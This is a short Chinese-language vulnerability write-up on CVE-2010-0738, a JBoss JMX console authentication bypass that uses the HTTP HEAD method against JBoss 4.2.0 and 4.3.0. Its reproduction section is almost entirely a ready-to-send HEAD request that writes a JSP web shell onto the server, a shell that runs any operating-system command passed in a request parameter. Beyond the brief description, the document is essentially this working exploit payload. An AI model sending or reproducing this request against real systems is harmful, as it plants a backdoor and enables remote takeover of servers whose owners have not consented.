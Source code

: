 ```yaml
---
title: "（CVE-2010-0738）JBoss JMX控制台安全验证绕过漏洞"
id: zhfly2981
---
```


# （CVE-2010-0738）JBoss JMX控制台安全验证绕过漏洞

## 一、漏洞简介

这个漏洞利用方法跟CVE-2007-1036一样，不过这个是绕过了get和post传输限制，利用head传输方式发送payload

## 二、漏洞影响

jboss4.2.0 and jboss 4.3.0

## 三、复现过程

因为跟上个漏洞利用差不多，只不过用了head传输方式，我这里就直接贴payload了

```
HEAD /jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodIndex=6&arg0=..%2Fjmx-console.war%2F&arg1=hax0rwin&arg2=.jsp&arg3=<%Runtime.getRuntime().exec(request.getParameter("i"));%>&arg4=True HTTP/1.1

Host: hostx:portx

User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.1.9) Gecko/20100315 Firefox/3.5.9 (.NET CLR 3.5.30729)

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-us,en;q=0.5

Accept-Encoding: gzip,deflate

Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7

Keep-Alive: 300 `Proxy-Connection: keep-alive` 
```